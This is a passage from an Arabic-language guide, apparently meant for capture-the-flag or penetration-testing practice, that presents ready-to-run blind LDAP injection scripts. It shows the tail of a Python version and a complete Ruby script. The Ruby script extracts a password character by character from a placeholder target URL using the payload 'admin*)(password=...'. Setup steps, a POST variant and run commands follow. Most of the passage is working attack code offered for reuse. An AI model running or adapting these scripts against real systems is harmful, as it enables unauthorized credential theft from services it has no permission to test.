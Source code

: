     headers = {'Authorization': 'Bearer TOKEN', 'Cookie': 'session=XYZ'}
    r = requests.get(url + payload, headers=headers)
    ```
- **التشغيل**:
  - `python3 blind_injection.py`
- **المخرجات**:
  - يطبع القيمة المستخلصة حرفًا بحرفًا (مثل `[+] Flag: MYKE`).

#### سكربت Ruby للاستغلال الأعمى
```ruby
#!/usr/bin/env ruby
require 'net/http'
alphabet = [*'a'..'z', *'A'..'Z', *'0'..'9'] + '_@{}-/()!"$%=^[]:;'.split('')

flag = ''
url = URI('http://TARGET_URL.com?action=dir&search=')  # استبدل بـ URL الموقع
(0..50).each do |i|
  puts "[i] Looking for character #{i + 1}"
  alphabet.each do |char|
    payload = "admin*)(password=#{flag}#{char}"
    http = Net::HTTP.new(url.host, url.port)
    http.use_ssl = true if url.scheme == 'https'
    request = Net::HTTP::Get.new(url + payload)
    response = http.request(request)
    if response.body.match?(/TRUE CONDITION/)  # استبدل TRUE CONDITION بنص يظهر عند النجاح
      flag += char
      puts "[+] Flag: #{flag}"
      break
    end
  end
end
```

- **الإعداد**:
  - استبدل `http://TARGET_URL.com?action=dir&search=` بعنوان URL الصحيح.
  - استبدل `'TRUE CONDITION'` بنص النجاح.
  - عدّل `alphabet` إذا لزم الأمر:
    ```ruby
    alphabet = ('a'..'z').to_a + ('A'..'Z').to_a + ('0'..'9').to_a + '!@#$%^&*()_+-=[]{}|;:,.<>?'.split('')
    ```
- **التعديلات الممكنة**:
  - مماثلة لتعديلات Python (تغيير نوع الطلب، الخاصية، المستخدم، شرط النجاح، إضافة رؤوس).
  - مثال لاستخدام POST:
    ```ruby
    request = Net::HTTP::Post.new(url)
    request.set_form_data('search' => "admin*)(password=#{flag}#{char}")
    ```
- **التشغيل**:
  - `ruby blind_injection.rb`
- **المخرجات**:
  - يطبع القيمة المستخلصة حرفًا بحرفًا.
